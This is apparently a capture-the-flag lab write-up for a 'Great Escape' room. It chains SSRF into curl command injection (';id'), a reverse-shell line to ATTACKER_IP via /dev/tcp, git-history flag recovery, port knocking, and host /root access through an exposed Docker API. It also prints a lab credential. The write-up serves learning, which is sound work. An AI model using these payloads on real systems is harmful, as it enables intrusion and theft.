# The Great Escape

##### Difficulty: [ Medium ]

**Tags:** `Linux`,  `nmap`,  `.well-known`,  `security.txt`,  `SSRF`,  `OS injection`,  `git`,  `port knocking`,  `docker`,  `docker mount`

---

##### Written: 05/12/2021

##### IP address: 10.10.169.214

---

### [ Find the flag hidden in the webapp ]

As usual, we start off with an **Nmap** scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.169.214
```

**Results:**

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh?    syn-ack ttl 60
80/tcp open  http    syn-ack ttl 60 nginx 1.19.6
|_http-favicon: Unknown favicon MD5: 67EDB7D39E1376FDD8A24B0C640D781E
| http-methods: 
|_  Supported Methods: HEAD
| http-robots.txt: 3 disallowed entries 
|_/api/ /exif-util /*.bak.txt$
|_http-server-header: nginx/1.19.6
|_http-title: docker-escape-nuxt
|_http-trane-info: Problem with XML parsing of /evox/about
```

From the results, we can see that there are **2** ports open: **22** (SSH) and **80** (HTTP).

Nmap also reveals the **robot.txt** file contents on the HTTP web server, showing 3 disallowed entries: 

* **/api/**
* **/exif-util**
* **/*.bak.txt**

Let's note these entries for now and visit the web server:



Looks like we have a photography website!

<br>

I tried to run a **Gobuster** directory scan on the web server.

```
gobuster dir -u http://10.10.169.214/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```



Unfortunately, the scan was not working as the web server was returning a status code of **200** for every attempt, even if the attempted directory did not exist. Furthermore, I later found out that there was rate-limiting on the server, which returned a status code of **503** (Service Unavailable) if requests were being sent too quickly to it. This basically made any automated brute-forcing tools like gobuster and hydra unusable.

<br>

I struggled for a bit here before deciding to look at the provided hint:



After doing some research online, I found out that this is hinting towards files located in the **/.well-known/** directory.

---

***From Wikipedia:** A well-known URI is a URI that starts with /.well-known/. They are implemented in webservers so that requests to the servers for well-known services or information are available at URLS consistent well-known locations across servers.*

*Well-known URIs are simple ways for webservers to hold metadata that any user-agent can access. The metadata is useful for various tasks, including directing a web user to use an [mobile app](https://en.wikipedia.org/wiki/Mobile_app) instead of the website or indicating the different ways that the site can be secured.*

*Think of the well-known directory as a common place where user-agents know to look into, regardless of which web server they are visiting, to obtain certain information from services that are running on those web servers.*

https://en.wikipedia.org/wiki/Well-known_URI

---

In the Wikipedia page, there is a list of common well-known URIs. I noticed one very interesting URI:



<br>

Let's try to access this file by visiting `http://10.10.169.214/.well-known/security.txt`



Nice! There is a note in the security.txt file which tells us to ping **/api/fl46** with a **HEAD** request. We can do that with `curl`.

```
curl -I http://10.10.169.214/api/fl46
```

*The -I option is used to indicate a HEAD request*



And we have found the first flag!

---

### [ Find the root flag? ]

Remember the disallowed entries from the robots.txt file earlier? Let's visit them now.

* **/api/**



There is indeed nothing to see here, let's move along for now.

<br>

* **/exif-util**



We have an upload form! From the name of this tool, I'm going to make a guess that it displays the metadata of any image we upload. Note that there are 2 options for uploading - Either via a **local file** or **from a URL**

I tried uploading an image from my local machine:



Yep, it works as expected. 

Next, I tried to upload a file from a URL. I hosted a HTTP server on my local machine, then inputted my IP address into the upload form.



From the request made, we can see that a parameter `url` is used. This leads me to believe that we will have to carry out a  **Server-side Request Forgery** (SSRF) attack. 

---

*Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make HTTP requests to an arbitrary domain of the attacker's choosing.*

---

SSRF could be useful as we can essentially force the server to communicate with other hosts within its internal network, which we cannot communicate directly with from the outside. Unfortunately, I don't really know any other URLs to point the server to right now, so let's move on first.

<br>

* **/*.bak.txt**

**.bak** files are usually backup files. This indicates that there could be backup files that the web developer does not want us to find. We can't use tools like Gobuster for this room, which means we probably don't need to brute-force the name of the files.

Maybe the backup files could be the source codes of the different pages on the site? I tried different possible names before finding a backup file called **exif-util.bak.txt**:




<br>

The backup file reveals the  source code for the **exif-util** tool on the web server. Taking a closer look, we see this particular line:



Looks like we have an internal host that is accessible by the web server! 

<br>

Now we have a URL to point the server to. Let's try it now:

```
http://api-dev-backup:8080/exif
```



<br>

Hmmm it seems that we have an error... Perhaps we are supposed to pass the `url` parameter into the request?

```
http://api-dev-backup:8080/exif?url=test
```



Great, we get a different error this time, which means that we needed to pass in the `url` parameter after all.

At this point, I felt that there was a high chance that we have to carry out an **OS Injection** attack.

---

*An OS command injection is a web security vulnerability that enables the execution of unauthorized operating system commands. An OS command injection vulnerability arises when a web application sends unsanitized, unfiltered system commands to be executed. Due to the insufficient input validation an attacker could inject their own commands to be operated on the shell level.*

---

What is most likely happening on the server-side is that it is taking our input to the `url` parameter and passing it to a shell command to be executed. To test this theory, let's go ahead and input an empty string:

```
http://api-dev-backup:8080/exif?url=
```



From the bottom of the error message, we see '**curl: no URL specified!** This proves that the server is passing our input to  the `curl` command. With that, we can pass the following payload to execute our own commands:

```
http://api-dev-backup:8080/exif?url=;id
```

The `;` symbol will terminate the line and then run whatever comes after in the shell (`id` in this case). 

<br>



It works :smile:

<br>

With that, let's now try to set up a reverse shell:

```
http://api-dev-backup:8080/exif?url=;bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```



Uh oh, seems that there is some server-side filtering going on. I tried many other reverse shell payloads, but I kept getting the same error. Looks like we'll have to forgo opening a reverse shell and run our commands through the page instead.

<br>

I first listed out the files in the **/root** directory:



There is an interesting file called **dev-note.txt**. Let's take a look:


Interesting! We have found a set of credentials - **Hydra:fluffybunnies123**

I tried to log into the SSH server but was unable to do so. Seems like its blocked to us at the moment.

<br>

Another interesting file in the root directory is the **.git** file. This tells us that this directory is actually a **Github repository**. We can try using `git` commands to enumerate more information about the repo.

```
git -C /root log
```

*The -C option is needed as we are trying to run git from **outside** the directory that hosts the repository. If we want to use `git log` as it is, we would have to `cd` into the github repo first. Since we can't move directories in this situation, we will have to use the -C option.*

<br>



The web developers have clearly removed the flag from the repository. Let's try reading the earliest commit:

```
git -C /root show a3d30a7d0510dc6565ff9316e3fb84434916dee8
```



We can find the root flag in the flag.txt file!

---

### [ Find the real root flag ]

From the deleted flag.txt, we can also see a **port-knocking** sequence that will grant us access to a **Docker** tcp port. We just have to visit the ports on the target machine in order:

```
telnet 10.10.169.214 42
telnet 10.10.169.214 1337
telnet 10.10.169.214 10420
telnet 10.10.169.214 6969
telnet 10.10.169.214 63000
```

Let's now run another **Nmap** scan:

```
sudo nmap -T4 -p- 10.10.169.214
```

**Results:**

```
PORT     STATE SERVICE
22/tcp   open  ssh?    
80/tcp   open  http    
2375/tcp open  docker
```

We can see that port **2375** is now open!

<br>

We can use `docker` to list out the images installed on the target machine:

```
docker -H tcp://10.10.169.214:2375 images
```



The first thing I noticed was the **alpine** image.

---

*Alpine (https://alpinelinux.org/) is a Linux distribution built around musl libc and BusyBox.* 

---

After doing some research online, I found out that we can actually mount a folder on the real machine onto a folder within a container. The command to do so is:

```
docker -H tcp://10.10.169.214:2375 run -it --rm -v /root:/mnt/root alpine:3.9
```

*`-H`: used to indicate the host that is running docker*

*`-it`: used to spawn an interactive container (that we can use like a shell)*

*`--rm`: used to remove the mount on the image after exiting*

*`-v /root:/mnt/root`: mount the /root directory on the real machine to /mnt/root on the container*

*`alpine:3.9`: indicate which image to use for the container*

<br>



Once the command is run, we are placed in a shell within a newly created alpine container. 

We can then navigate to **/mnt/root** to access the **/root** directory on the real machine.



In there we can find the real root flag!
